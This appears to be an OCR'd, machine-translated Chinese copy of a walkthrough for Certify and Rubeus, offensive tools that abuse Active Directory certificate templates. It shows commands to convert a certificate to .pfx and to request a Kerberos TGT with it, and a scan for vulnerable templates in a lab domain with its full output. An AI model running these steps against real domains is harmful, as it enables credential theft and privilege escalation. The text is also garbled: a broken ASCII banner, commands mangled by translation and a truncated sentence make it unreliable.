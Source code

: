 **使用请求的证书**

证书可以转换成。pfx 可与以下认证一起使用:

**OpenSSL pkcs12-in cert . PEM-keyex-CSP " Microsoft Enhanced Cryptographic Provider v 1.0 "-export-out cert . pfx**

证书可与 Rubeus 一起使用，以申请具有以下内容的 TGT:

**Rubeus.exe asktgt/用户:X/证书:C:\ Temp \ cert . pfx/密码:**

**示例演练**

首先，使用 Certify.exe 查看是否有任何易受攻击的模板:

**C:\Temp>Certify.exe find /vulnerable
*_ _ _ /* | | | (*)/* |
| | _ _ | |_ *| |* _ _
| | / _ \ ‘| | | *| | | | | |*| / | | |*| | | | |*| | _**_|*| _*|*|*| __, |
/ | |_./
v1.0.0
[*] Action: Find certificate templates [*] Using the search base ‘CN=Configuration,DC=theshire,DC=local’
[*] Restricting to CA name : dc.theshire.local\theshire-DC-CA [*] Listing info about the Enterprise CA ‘theshire-DC-CA’
Enterprise CA Name : theshire-DC-CA
DNS Hostname : dc.theshire.local
FullName : dc.theshire.local\theshire-DC-CA
Flags : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
Cert SubjectName : CN=theshire-DC-CA, DC=theshire, DC=local
Cert Thumbprint : 187D81530E1ADBB6B8B9B961EAADC1F597E6D6A2
Cert Serial : 14BFC25F2B6EEDA94404D5A5B0F33E21
Cert Start Date : 1/4/2021 10:48:02 AM
Cert End Date : 1/4/2026 10:58:02 AM
Cert Chain : CN=theshire-DC-CA,DC=theshire,DC=local
UserSpecifiedSAN : Disabled
CA Permissions :
Owner: BUILTIN\Administrators S-1-5-32-544
Access Rights Principal
Allow ManageCA, ManageCertificates BUILTIN\Administrators S-1-5-32-544
Allow ManageCA, ManageCertificates THESHIRE\Domain Admins S-1-5-21-937929760-3187473010-80948926-512
Allow ManageCA, Read, Enroll THESHIRE\Domain Users S-1-5-21-937929760-3187473010-80948926-513
[!] Low-privileged principal has ManageCA rights!
Allow Enroll THESHIRE\Domain Computers S-1-5-21-937929760-3187473010-80948926-515
Allow ManageCA, ManageCertificates THESHIRE\Enterprise Admins S-1-5-21-937929760-3187473010-80948926-519
Allow ManageCertificates, Enroll THESHIRE\certmanager S-1-5-21-937929760-3187473010-80948926-1605
Allow ManageCA, Enroll THESHIRE\certadmin S-1-5-21-937929760-3187473010-80948926-1606
Enrollment Agent Restrictions :
Everyone S-1-1-0
Template :
Targets :
Everyone S-1-1-0
Everyone S-1-1-0
Template : User
Targets :
Everyone S-1-1-0
Vulnerable Certificates Templates :
CA Name : dc.theshire.local\theshire-DC-CA
Template Name : User2
Validity Period : 2 years
Renewal Period : 6 weeks
msPKI-Certificates-Name-Flag : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH